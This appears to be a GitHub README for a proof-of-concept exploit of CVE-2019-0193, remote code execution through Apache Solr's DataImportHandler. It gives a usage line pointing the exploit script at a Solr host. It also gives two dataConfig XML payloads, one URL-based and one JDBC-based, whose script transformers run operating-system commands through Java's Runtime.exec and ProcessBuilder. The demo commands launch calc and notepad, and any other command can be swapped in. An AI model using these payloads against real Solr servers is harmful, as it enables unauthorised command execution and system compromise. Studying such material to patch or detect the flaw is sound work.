




# CVE-2019-0193  Solr DataImport Handler RCE (RCE-Vuln < solr v8.12)


### python usage

`python CVE-2019-0193.py http://192.168.2.18:8983 "calc"`

### URLDataSource_Poc



```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("calc");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

### jdbc




`D:\CVE\CVE-2019-0193\solr-7.7.2\server\solr-webapp\webapp\WEB-INF\lib\mysql-connector-java-5.1.48.jar`

```
<dataConfig>  
<dataSource name="fromMysql"
     type="JdbcDataSource"  
     driver="com.mysql.jdbc.Driver"  
     url="jdbc:mysql://localhost:3306/mysql"  
     user="root"  
     password="jas502n"/>
<script ><![CDATA[
   function poc(row) {
      var x=new java.lang.ProcessBuilder;x.command("notepad",'1.txt');org.apache.commons.io.IOUtils.toString(x.start().getInputStream());
     return row;
   }
   ]]>
 </script>  
<document>  
 <entity name="Jas502n" transformer="script:poc" query="SELECT 1">
 </entity>  
</document>  
</dataConfig>
```

### 参考链接：
https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA

https://mp.weixin.qq.com/s/diF7HOf3wuSjBeoIb7qLCA

